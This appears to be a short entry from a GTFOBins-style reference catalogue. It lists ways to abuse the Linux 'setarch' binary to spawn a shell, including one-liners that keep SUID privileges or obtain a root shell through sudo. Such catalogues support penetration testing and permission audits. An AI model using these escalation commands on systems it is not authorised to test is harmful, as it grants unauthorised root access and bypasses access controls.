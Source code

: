 functions:
  shell:
    - code: setarch $(arch) /bin/sh
  suid:
    - code: ./setarch $(arch) /bin/sh -p
  sudo:
    - code: sudo setarch $(arch) /bin/sh
---
